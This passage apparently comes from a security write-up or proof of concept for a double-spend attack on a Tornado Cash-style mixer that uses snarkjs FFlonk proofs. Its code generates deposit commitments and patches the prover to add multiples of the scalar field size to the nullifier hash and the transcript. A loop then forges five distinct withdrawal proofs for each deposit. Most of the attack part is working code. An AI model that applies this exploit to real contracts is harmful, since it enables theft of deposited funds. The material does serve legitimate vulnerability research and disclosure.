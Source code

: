 Then we generate a set of witnesses and commitments:

```javascript
const witnesses = ["wtns1", "wtns2", "wtns3"];
const commitments = [];

for (let wtns of witnesses) {
  const nullifier = rbigint(31);
  const secret = rbigint(31);
  
  const commitment = await pedersenHash(
    Buffer.concat([
      leBigintToBuffer(nullifier, 31),
      leBigintToBuffer(secret, 31),
    ])
  );
  commitments.push(commitment);

  const recipient = hexToBigint("0x000FacC43F939Df4B423A90F02641a2D7C95A937");
  await make_witness(recipient, 0n, 0n, 0n, nullifier, secret, commitments, wtns);
}
```

With our witnesses prepared, we can now execute the main stages of the attack:

1. Modify the snarkjs FFlonk prover to add a multiple of the field size to public inputs (the multiplier is passed as an additional argument to fflonkProve):
```diff
     buffWitness.set(Fr.zero, 0);
     const buffInternalWitness = new BigBuffer(zkey.nAdditions * sFr);

+    buffWitness.set(
+      leBigintToBuffer(
+        leBufferToBigint(buffWitness.slice(2 * sFr, 2 * sFr + sFr)) + 21888242871839275222246405745257275088548364400416034343698204186575808495617n * hack,
+        sFr,
+      ),
+      2 * sFr,
+    );
...
         // Add A to the transcript
         for (let i = 0; i < zkey.nPublic; i++) {
-            transcript.addScalar(buffers.A.slice(i * sFr, i * sFr + sFr));
+            if (i === 1) {
+                transcript.addRaw(beBigintToBuffer(leBufferToBigint(buffWitness.slice(2 * sFr, 2 * sFr + sFr)), sFr));
+            } else {
+                transcript.addScalar(buffers.A.slice(i * sFr, i * sFr + sFr));
+            }
         }
```

2. Generate multiple withdraw proofs for each deposit by manipulating the nullifier hash by adding a multiple of the scalar field size:
```javascript
for (let i = 0; i < commitments.length; i++) {
  // Make deposit
  const commitment = commitments[i];
  output += `tornado.deposit{value: 1 ether}(0x${commitment.toString(16)});\n`;
  
  // Generate 5 different proofs for the same deposit
  for (let n = 0n; n < 5n; n++) {
    const { proof, publicSignals } = await fflonk.prove(zkey_path, wtns, undefined, undefined, n);
    // ... format proof for contract call ...
  }
}
```